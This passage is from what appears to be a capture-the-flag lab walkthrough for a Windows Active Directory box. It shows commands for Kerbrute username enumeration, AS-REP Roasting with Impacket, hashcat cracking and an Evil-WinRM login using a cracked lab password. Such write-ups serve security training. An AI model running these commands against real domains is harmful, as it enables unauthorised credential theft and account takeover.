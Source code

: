 ![](2025-05-31-services-11.png)

### Kerberos - 88

Then I am going to use the tool [Kerbrute](https://github.com/ropnop/kerbrute) to see if they are valid usernames with the command:

```
./kerbrute userenum --dc <Target's IP address> -d services.local <username file>
```

And they are all valid usernames.

![](2025-05-31-services-12.png)

## Exploitation

### Abusing Kerberos

Since we don’t have a password, but we have valid usernames, we can attempt an attack called [AS-REP Roasting](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/). This attacks checks for users that have Kerberos pre-authentication disabled and captures the password hash. We can use [Impacket’s GetNPUsers](https://github.com/fortra/impacket) to perform this attack with the command:

```
GetNPUsers.py -dc-ip <Target's IP address> -request 'services.local/' -usersfile <username file> -format hashcat
```

![](2025-05-31-services-13.png)

And we got a hash! We can crack it using Hashcat with the command:

```
hashcat -m 18200 <hash file> rockyou.txt
```

![](2025-05-31-services-14.png)

And it just takes a few seconds:

![](2025-05-31-services-15.png)

Let’s see if we have WinRM access using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) with the command:

```
evil-winrm -i <Target's IP address> -u j.rock -p Serviceworks1
```

![](2025-05-31-services-16.png)

Let us see what else we can find!

## Post Exploitation
